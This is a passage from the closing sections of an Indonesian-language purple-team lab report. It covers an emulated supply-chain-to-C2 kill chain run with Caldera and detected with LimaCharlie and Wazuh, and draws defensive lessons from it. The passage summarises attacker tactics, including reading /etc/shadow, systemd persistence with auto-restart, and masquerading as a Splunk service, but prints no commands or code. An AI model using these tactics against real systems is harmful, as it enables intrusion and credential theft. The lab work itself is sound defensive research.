* **5 detection LimaCharlie di awal window (`07:11:39`-`07:19:25`) gak pernah dibuka detailnya** — awalnya diduga bagian dari kill chain, lalu dikoreksi (gak match sama timestamp pasti `setup.sh` dari Wazuh), tapi asal command-line-nya tetep gak dikonfirmasi — kemungkinan noise lain di environment yang gak diinvestigasi lebih jauh.
* **Root cause noise Wazuh (`who` trigger, dpkg/auditd jam 14:19) cuma dugaan**, belum dikonfirmasi langsung di VM (lihat update.md).
* **Lab single-host, single-pass** — gak ada lateral movement, gak ada exfiltration beneran ke luar jaringan, gak ada pengujian SOAR/auto-response (semua response Fase 5.4 manual lewat UI LimaCharlie). Privilege escalation juga gak teruji karena agent landing langsung sebagai root (admin eksekusi manual pakai `sudo`).
* **Decode stager payload gak 100% bersih** — ~20 byte terakhir corrupt pas di-decode (Fase 5.4), walaupun bagian yang hilang udah ketutup dari log Wazuh terpisah.

---

# Kesimpulan

Full kill-chain berhasil disimulasikan dan divalidasi end-to-end: **T1195/T1204 (supply chain) → T1059.004/T1105/T1027 (execution+staging) → T1543.002 (persistence systemd) → T1033/T1087.001/T1057/T1069.001 (discovery) → T1003.008 (credential access, sukses) / T1005 (collection, gagal) → T1562.001 (response/eradication)**. Total **41 LimaCharlie detections** + **64 Wazuh hits** terkumpul dan cross-reference-nya konsisten satu sama lain maupun ke operation report Caldera (JSON).

**Temuan utama:**

1. **EDR dan SIEM saling melengkapi, bukan saling gantiin.** LimaCharlie unggul di visibilitas proses/file level (deteksi eksekusi dari `/tmp`, akses `/etc/shadow`, dll), tapi blind terhadap command line persis yang mencetuskan serangan. Wazuh (via decoder `sudo` + rule `5402`) justru nyimpen command line itu detail-detail. Kombinasi dua tool ini yang bikin kronologi full kill chain bisa direkonstruksi — satu tool aja gak cukup (Fase 5.1 & 5.2).
2. **Response gak selalu cukup di satu langkah.** Kill process manual efektif buat `sandcat.go`, tapi gagal permanen buat `splunkd` sampai binary-nya ikut dihapus — karena unit systemd implan punya `Restart=always`. Analyst yang cuma reaktif (kill process doang) bakal keliatan "menang" sesaat tapi implan tetap hidup; baru beneran putus setelah ngerti mekanisme persistence-nya (dikonfirmasi dari decode `setup.sh` di Fase 5.4).
3. **Masquerading (T1036.005) via nama service + path yang masuk akal** (`splunkd`, `/etc/monitor/`, `Description=Splunk Universal Forwarder`) cukup efektif ngabisin waktu triage kalau analyst gak langsung curiga ke proses bernama "resmi" — di lab ini ketahuan karena udah ada baseline kronologi dari EDR/SIEM, bukan dari analisa nama proses semata.
4. **Custom ability Stockpile** (bukan adversary profile bawaan) terbukti perlu buat nutup gap technique spesifik (T1003.008) yang gak disediakan Caldera out-of-the-box — konsisten sama catatan di Fase 4.

Secara keseluruhan, lab ini memvalidasi bahwa **LimaCharlie + Wazuh berdampingan** mampu ngasih visibilitas yang reasonably lengkap buat kill chain supply-chain-to-C2 kayak gini, dengan catatan: beberapa gap taksonomi rule bawaan dan blind spot command-line-level EDR tetap perlu custom detection rule tambahan kalau mau dipakai produksi (dicatat di **Batasan** di atas).
